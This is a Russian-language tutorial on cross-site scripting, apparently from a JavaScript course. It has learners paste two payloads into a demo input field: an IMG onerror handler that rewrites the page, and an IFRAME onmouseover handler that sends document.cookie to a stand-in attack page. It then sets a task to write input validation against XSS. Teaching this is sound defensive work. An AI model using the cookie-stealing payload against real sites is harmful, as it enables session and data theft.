 # 🎓 XSS

XSS ( Cross-Site Scripting — «межсайтовый скриптинг» ) — атака на веб-систему путем инъекции вредоносного кода
```
( вместо "C" используется "X", чтобы не было путаницы с CSS )
```
Внедренный код будет выполняться на компьютере пользователя, открывшего страницу

Код будет пересылать конфиденциальные данные  пользователя  веб-серверу хакера
```
Разновидностей XSS-атак очень много
Частично они отражаются на уровне браузера
В данном примере мы  будем внедрять код при вводе пользовательских данных
и использовать обработчиков событий элементов для запуска внедренного кода
```
[:link: Перейдите по ссылке](https://garevna.github.io/js-samples/#03)

Откройте  `Chrome DevTools`

Установите точки останова  ( breakpoints ) для того, чтобы 
пошагово отслеживать выполнение кода и
вносить изменения в код

1. Скопируйте код ниже и вставьте его в поле ввода элемента input:
```html
<IMG SRC="images/hack.png" onerror="document.write ( String.fromCharCode ( 88, 83, 83) )"/>
```
это довольно безобидная "атака", которая просто перезапишет содержимое body

2. Скопируйте код ниже и вставьте его в поле ввода элемента input:
```html
<IFRAME SRC=js/attack.html 
        onmouseover="window.open ( 'https://garevna.github.io/js-samples/js/attack.html#' + document.cookie, '_self' )">
</IFRAME>
```
`( с помощью такой строки можно украсть куки с компьютера пользователя, где хранится конфиденциальная информация о нем )`

Обратите внимание, что вместо ссылки ☕ ~~https://garevna.github.io/js-samples/js/attack.html~~

в реальной атаке будет ссылка на сайт ( страницу ) хакера

## 💼 

В панели навигации откройте файл **js/index03.js**

Обратите внимание на функцию валидации ввода пользователя  ( **testUserText** )

В случае XSS атаки функция должна заменить текст, введенный пользователем, на сообщение: "*XSS атака отражена*" с указанием текущей даты и времени

***
[:link: securitylab](https://www.securitylab.ru/analytics/432835.php)
[:link: websitesecurity](https://www.acunetix.com/websitesecurity/cross-site-scripting/)